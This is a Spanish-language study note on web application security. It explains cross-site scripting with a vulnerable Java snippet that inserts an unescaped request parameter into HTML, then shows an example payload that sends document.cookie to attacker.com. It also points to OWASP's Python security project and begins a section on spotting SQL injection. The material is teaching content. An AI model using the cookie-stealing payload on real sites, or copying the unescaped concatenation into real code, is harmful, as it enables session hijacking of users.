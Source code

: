 - Con este tipo de ataques, el impacto sobre el sistema puede ser alto, ya que el atacante podría conseguir desde el robo de la sesión del usuario, hasta la invasión de la autenticación.

- Un posible escenario pordría ser el siguiente:

    - La aplicación hace uso de datos no confiables permitiendo que un atacante puede incrustar su propio código:

        ```js
         (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("creditcard") + "'>";
        ```
    
    - En este caso el atacante podría modificar el parámetro creditcar mediante el método GET y conseguir robar el identificador de la sesión del usuario.

        ```
         <script>document.location= 'http://www.attacker.com/cgibin/cookie.cgi?foo=' +document.cookie</script>
        ```

- [OWASP Cross Site Scripting](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html)


## OWASP Python Security Project
- https://readthedocs.org/projects/owasp-pysec/
- https://github.com/ebranca/owasp-pysec

- Se trata de un proyecto de código abierto que tiene como objetivo mostrar aquellas herramientas Python que facilitan a los desarrolladores y profesionales de la seguridad desarrollar aplicaciones más seguras antes de posibles ataques.

- Ha sido diseñado para explorar cómo se pueden desarrollar aplicaciones web de forma segura, al abordar el problema desde varios puntos de vista diferentes: análisis de caja blanca y de caja negra, así como análisis estructural y funcional.


## Scripts en Python para detectar vulnerabilidades en sitios web.

- La lista de vulnerabilidades que se pueden encontrar en una aplicación web es amplia, desde Cross Site Scripting y hasta inyección SQL.

- El sitio web proporcionado por acunetix, ofrece algunos sitios web que contienen algunas vulnerabilidades mencionadas, donde cada sitio está hecho con diferentes tecnoclogías en el lado del backend.

    - http://www.vulnweb.com/


### Script en Python para detectar SQL Injection

- Una forma sencilla de identificar sitios web con la vulnerabilidad de inyección de SQL es aadir algunos caracteres a la URL, como comillas o puntos.

- Por ejemplo, si decta que una URL con un sitio php donde está usando un parámetro para una búsqueda específica, puede intentar aádir un carácter especial en este parámetro.
